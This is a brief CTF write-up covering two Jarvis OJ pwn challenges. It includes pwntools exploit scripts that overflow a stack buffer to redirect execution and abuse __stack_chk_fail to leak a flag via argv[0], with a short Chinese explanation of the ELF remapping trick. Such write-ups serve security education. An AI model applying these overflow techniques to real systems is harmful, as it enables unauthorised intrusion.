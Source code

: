 # write up 0710

## Tell Me Something

exp:

```python
from pwn import *

#n = process('./guestbook')
n = remote('pwn.jarvisoj.com', 9876)

n.recv()
payload = 'a' * 0x88 + p64(0x0400620)
n.sendline(payload)
n.interactive()
```



## Smash

搜了一下smash，发现是利用__stack_chk_fail函数打印argv[0]的内容，通过栈溢出到argv[0]来输出flag  

在程序的0x0600D20处有flag，可是在程序运行时0x600D21被覆盖了  

利用ELF文件重映射，如果ELF文件足够小，就会在不同区段进行映射  

进行调试之后发现在0x400D20处存在重映射后的flag，此处不会被覆盖  

exp:

```python
from pwn import *

#n = process('./smashes')
n = remote('pwn.jarvisoj.com', 9877)

n.recvuntil('name?')
payload = p64(0x400d20) * 200
n.sendline(payload)
n.recv()
n.sendline()
n.interactive()
```

